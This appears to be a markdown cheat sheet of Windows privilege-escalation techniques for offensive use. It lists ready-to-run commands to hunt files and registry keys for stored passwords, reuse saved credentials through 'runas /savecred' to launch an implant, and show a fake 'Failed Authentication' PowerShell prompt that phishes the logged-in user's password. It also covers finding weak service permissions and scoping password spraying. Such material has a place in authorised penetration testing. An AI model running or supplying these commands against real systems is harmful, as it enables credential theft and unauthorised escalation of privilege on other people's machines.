 # Windows Privilege Escalation Techniques

## Searching for sensitive filles

Start by searching for sensitive files on the local C drive. After that search any reachable network shares. [SharpShares](https://github.com/mitchmoser/SharpShares) can be used to search for open network shares.

```
dir /b /a /s c:\ > c-dirs.txt
```

```
SharpShares.exe /ldap:all /filter:sysvol,netlogon,ipc$,print$
```

Either extract the c-dirs.txt file onto your system and use your tool/text editor of choice to search for sensitive file. If you prefer to stay on the windows system and search through the file, use `type` and `findstr` to search for sensitive string.

```
type c-dirs.txt | findstr /i passw
```

## Registry Queries
Passwords for putty, vnc, and OpenSSH keys can be stored in the registry.

```
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKCU\Software\TightVNC\Server"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query "HKCU\Software\OpenSSH\Agent\Keys"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

```
Seatbelt.exe WindowsAutoLogon
Seatbelt.exe reg
```

## Credential Manager

Credentials stored in the windows credential manager can be abused to run commands or launch payloads as another users.

**List stored credentials**
```
cmdkey /list
```

**User a stored credential**
```
runas /savecred /user:admin implant.exe
```

```
Seatbelt.exe CredEnum
```

## Asking for Credentials

Only a viable attack path if there's a user logged into the system. This can also burn you if the user gets suspicious.

**Request password for current user, using environment variable for the user:**
```powershell
powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

**Request password for current user, using hard-coded username (admin in this example):**
```powershell
powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'admin',[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

## Unsecured Services or Executables

**Identify Unquoted Service Paths with WMIC:**
wmic can trigger alerts in some environments.
```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```
**Identify services Everyone, Users, and Authenticated users have write access on with [accesschk.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)**

```
accesschk.exe -accepteula -wuvc "Everyone" *
```
```
accesschk.exe -accepteula -wuvc "Users" *
```
```
accesschk.exe -accepteula -wuvc "Authenticated Users" *
```

## View Password Policy

Password spray attacks can sometimes lead to elevating privileges if you're lucky. Knowing the password policy can greatly increase your success rate and efficiency. For example, if you know the password length is set to 15, you won't waste time spraying 8 character lenght passwords. ALthough there are sometimes when an old service account which hasn't had a password change in 10 years is using a password that falls outside the curretn password complexity rules.

```
net accounts
```